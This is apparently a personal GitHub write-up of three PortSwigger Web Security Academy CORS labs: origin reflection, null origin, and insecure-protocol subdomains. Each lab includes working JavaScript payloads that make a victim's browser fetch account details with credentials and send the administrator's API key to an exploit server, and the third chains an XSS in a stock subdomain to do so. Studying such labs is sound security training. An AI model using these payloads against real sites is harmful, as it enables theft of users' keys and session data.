

# Portswigger Writeups

## Lab 1: Basic Origin Reflection

To solve this lab, craft some Javascript that uses CORS to retrieve the administrator's API key. I am given the exploit server for this lab.

Essentially, CORS enables servers to define who can access their assets. This is configured using the `Access-Control-Allow-Origin` or `Access-Control-Allow-Credentials` headers.

When reviewing the requests, there was a GET request sent to `/accountDetails`. 


This request had the `Access-Control-Allow-Credentials` header set to `true`.


This header specifies whether the server allows cross-origin HTTP requests to include credentials. This means other domains can read responses if given credentials.



This can be abused by making the victim visit the `administrator` account, then sending the entire page to the exploit server.

Here's the payload I used:

```js
<script>
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://0ae2006f03d768f783065546006d00a6.web-security-academy.net/accountDetails',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='/steal?key='+this.responseText; 
};
</script>
```

What this script does is make the victim visit the `/accountDetails` directory with the CORS misconfiguration. I can retrieve pages that normally require credentials, which is then sent to the exploit server.

Sending this to the victim produces this:


Submitting the API key there solves the lab. 

## Lab 2: Trusted Null Origin

To solve this lab, submit the API key of the `administrator` user.

Similar to Lab 1, there's a GET request sent to `/accountDetails`.


I can attempt to send a `Origin: null` header to test whether that is allowed, and it was:


Having a trusted `null` origin means this:


Basically, it means that if `null` is allowed, only a specific number of resources are allowed to access this. The above states that `iframe` with the `sandbox` attribute is allowed.

So in this case, creating an `iframe sandbox` via payloads on Hacktricks suffices.

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://0a04003103ad2230827d152e002000b4.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://exploit-0a8d00290350221782a0141e018b0049.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```

The above payload specifies an `iframe sandbox`, which then loads a doucment created programmatically via the `data:` URL.

Sending this to the victim retrieves the API key, viewable from the Access Log.

## Lab 3: Trusted Insecure Protocols

To solve this lab, submit the API key of the `administrator` user. This lab trusts all subdomains **regardless of protocol used**.

When checking the `/accountDetails` directory, I entered fake websites within the `Origin` header with both HTTP and HTTPS protocols, and found that it was always allowed.



This means that accessing the website via HTTP is allowed, and that requests sent may be unencrypted. The hint is that MITM can be used, but in this case, I have to find an alternative way of injecting JS to the subdomain.

The lab had more functionality, including a 'Check Stock' function which opens a new window:


Notice that this new window uses HTTP and not HTTPS. Also, it is part of the `stock` subdomain.

So I have to inject Javascript into this subdomain. I tried using `<script` tags within the URL, and worked:


Here's the URL I used:

```
http://stock.0a85001804e81d34857fc64900c40035.web-security-academy.net/?productId=2<script>alert(1)</script>&storeId=2
```

So Javascript can be injected within the parameters. To exploit this and solve this lab, I can do the following:
1. Redirect the user to a maliciously crafted `stock` subdomain URL.
2. Include some Javascript that would **do the fetching of API key for me**. This is allowed because the `/accountDetails` directory has been set up to allow for any subdomain to 'fetch' it.
3. This URL will have the same payload as per the 1st lab. 

The encoding for the payload was rather weird, so I ended up going with Portswigger's. 

```html
<script>
    document.location="http://stock.0a85001804e81d34857fc64900c40035.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a85001804e81d34857fc64900c40035.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a5800fa04ab1d978584c53201bf0048.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

The `+` and `<` characters need to be URL encoded. Not too sure why but it allows the payload to work.